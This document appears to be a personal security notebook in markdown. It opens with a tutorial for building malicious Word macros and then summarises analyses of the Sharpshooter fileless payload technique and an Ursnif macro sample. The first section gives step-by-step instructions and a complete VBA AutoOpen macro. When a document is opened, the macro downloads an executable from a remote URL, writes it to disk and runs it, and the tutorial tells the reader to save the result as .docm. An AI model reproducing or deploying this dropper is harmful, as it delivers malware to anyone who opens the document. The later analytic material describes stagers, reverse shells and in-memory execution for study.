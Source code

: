 # Creating Word Macros to AutoRun Downloader via Word Document

https://www.sciencedirect.com/science/article/pii/S1353485817300491
https://screwnomore.wordpress.com/2015/11/06/creating-malicious-word-macros-tutorial-autorun-stub-via-word-document/
https://www.vba-market.com/2018/01/02/vba-run-time-error-2146697208-800c0008-the-download-of-the-specified-resource-has-failed/

Alt+F11 in MS Word or

![](https://i.imgur.com/NmBdUZn.png)

![](https://i.imgur.com/nvvcP5z.png)

Then Double click on ThisDocument

![](https://i.imgur.com/28Hk2dn.png)

Paste this code into the field that appears

```
Sub AutoOpen()

Dim xHttp: Set xHttp = CreateObject("MSXML2.ServerXMLHTTP.3.0")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
xHttp.Open "GET", "https://github.com/NotSurprised/LoremIpsumDolorSitAmetconsEctetur/raw/master/Reciept.exe", False
xHttp.Send

With bStrm
 .Type = 1 '//binary
 .Open
 .write xHttp.responseBody
 .savetofile "file.exe", 2 '//overwrite
End With

Shell ("file.exe")

End Sub
```

Now just save the file as filename.docm


## fileless payload
https://countercept.com/blog/analyzing-sharpshooter-part-1/
https://cloudblogs.microsoft.com/microsoftsecure/2018/09/27/out-of-sight-but-not-invisible-defeating-fileless-malware-with-behavior-monitoring-amsi-and-next-gen-av/
https://www.trendmicro.com/vinfo/us/security/news/cybercrime-and-digital-threats/kovter-an-evolving-malware-gone-fileless

1. An HTML web page that drops the stager onto a victim’s host machine;
2. A JScript/HTA/VBS stager. (In this post we will be using the JScript stager that connects back to the attacker’s machine, then downloads and executes C# code using DotNetToJavaScript. Sharpshooter provides two download mechanisms web delivery and DNS delivery. We will be analysing how Sharpshooter performs its web delivery.)
3. A C# source code file that will be downloaded, compiled and executed in memory. (In our example, we will be using an msfvenom Windows reverse Shell payload.)

![](https://i.imgur.com/XC3xSxt.png)

### Stager
The JScript file contains a series of encrypted JScript commands within it. When the file is executed, these commands are dynamically decrypted and executed at runtime. Among these decrypted commands are the dotNetToJscript (Forshaw, 2017) commands to serialize and execute the .NET assembly. These are shown in the following snippets: 

![](https://i.imgur.com/NlWrfIE.png)

Serialized_obj is a variable that contains a base 64 encoded serialized .NET assembly, which can be de-serialized and executed at run time. This .NET assembly correspond to a Sharpshooter class upon de-serialization.  

![](https://i.imgur.com/ub8fqWS.png)

The code snippet above shows a series of JScript commands that encompass the dotNetToJscript technique. These commands do the following:

De-serialize the Sharpshooter class by leveraging .NET BinaryFormatter, a class commonly used for remote procedure calls;  
Upon de-serialization, it will load the Sharpshooter class into memory.
With the Sharpshooter class loaded into memory, a new Sharpshooter object can be created from the class. With it created, we can now run its function calls:

![](https://i.imgur.com/BFuZlLW.png)

### Execution (pre-compilation)
Now that a new Sharpshooter object is loaded in memory, the attacker’s first task would be to make use of the new object’s functions to connect back to his machine to download the malicious C# source code into memory. This C# code can contain either a payload generated by mfsvenom or self-crafted by the attacker; as mentioned previously, we will be using a Windows reverse shell. The following snippets of code will show how the C# code is downloaded, compiled, and loaded into memory.

![](https://i.imgur.com/6sMK9Yr.png)

Headers and configuration information are first set, we can see the default User-Agent is Firefox.

![](https://i.imgur.com/otSAIP7.png)

Then the “DownloadString” function is used to download the payload into Sharpshooter’s process memory.

![](https://i.imgur.com/NZTeZ8a.png)

Subsequently, .NET CodeDomProvider library is used to compile the source code in memory.

![](https://i.imgur.com/vEz3gV9.png)

Thereafter, .NET reflection library would then be used to retrieve the compiled code’s program and main function. With the retrieved information, Sharpshooter is able to invoke the main function causing the MSFvenom payload to be executed.

### Execution (post-compilation)
As the reverse shell payload is in its raw assembly format, it can be directly executed by Windows (commonly referred to as “unmanaged code” in .NET). In order to execute the payload, Sharpshooter makes use of “VirtualAlloc” which allows it to allocate executable memory to hold the payload.   

![](https://i.imgur.com/qqkpgjc.png)

The code above reserves a large enough memory region within the Sharpshooter’s process region to hold our reverse shell payload.     

![](https://i.imgur.com/pGMCDnB.png)

Next, the reverse shell payload is written to the memory region that we previously allocated above. 

![](https://i.imgur.com/nAdM4CU.png)

![](https://i.imgur.com/iHMP2XA.png)

### Sample from Microsoft with macro

The Sharpshooter technique allows an attacker to use a script to execute a .NET binary directly from memory without ever needing to reside on the disk. This technique provides a framework that can enable attackers to easily repackage the same binary payload within a script. As demonstrated by the example of the two scripts, files that use the Sharpshooter technique can then be used in social engineering attacks to lure users into running the script to deliver a fileless payload.

![](https://i.imgur.com/Ce0PV6o.png)

This is the dynamic log generated by the scripts and detected by Windows Defender ATP at runtime via AMSI:

![](https://i.imgur.com/OLS8Nat.png)

these samples decode and execute the same .js script payload, a known downloader:

![](https://i.imgur.com/oGtyRSX.png)

The obfuscated macro code attempts to run an obfuscated Cmd command which in turns executes an obfuscated Powershell script. In the end, the Ursnif trojan is delivered.

![](https://i.imgur.com/j6cswOa.png)
